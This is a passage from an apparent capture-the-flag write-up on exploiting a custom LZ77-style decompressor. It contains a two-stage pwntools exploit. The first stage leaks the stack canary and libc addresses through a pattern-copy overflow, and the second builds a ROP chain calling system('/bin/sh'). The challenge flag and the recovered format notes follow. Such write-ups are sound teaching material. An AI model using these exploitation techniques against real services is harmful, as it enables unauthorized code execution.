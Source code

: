 Remember, we have to use the pattern copy because the normal byte insertion is checked for overflows.

My payload was getting real messy so I implemented a class to help me exploit.

This also allows me to better show the logic in the exploitation: 

```python
# STAGE 1: OBTAINING LEAKS AND CALLING MAIN AGAIN
# alignment for canary to end up on right place after cycle
beginpad = 8*2
middlepad = 0x20
stage1 = DecompressXploiter()
stage1.pad(beginpad)
stage1.leak(canary_offset) # has to end on canary
stage1.pad(middlepad) # between canary and ret addr: 5 words
stage1.leak(mainret_offset)
stage1.leak(start_offset) # has to end on ret addr
stage1.cycle(beginpad, 0x1000)
canary, mainret, start = stage1(io)
libc.address = mainret - 243 - libc.sym.__libc_start_main

# STAGE 2: SYSTEM BINSH ROP
rop = ROP(libc)
rop.call(rop.ret)
rop.call('system', [next(libc.search(b'/bin/sh'))])

beginpad = 8*3
middlepad = 8*5
stage2 = DecompressXploiter()
stage2.pad(beginpad)
stage2.add(p64(canary)) # has to end on canary
stage2.pad(middlepad) # between canary and ret addr: 5 words
stage2.add(rop.chain()) # has to end on ret addr
stage2.cycle(beginpad, 0x1000)
stage2(io) # get shell CTF{lz77_0r1ent3d_pr0gr4mming}
```

# post-flag findings

As the flag tells us, it seems the algorithm is based on lz77.

After getting access to the server we can also read the 'documentation': 

```markdown
# Compression format

(Note to self: the flag is stored in /flag)

1. Header
- u32 MAGIC "TINY"

2. Blocks
- u8 literal
- if literal == 0xff:
  - it's not a literal;
  - varint offset
  - varint length
  - if offset == 0, then special case:
    - if length == 0, EOF
    - if length == 1, literal 0xff
```
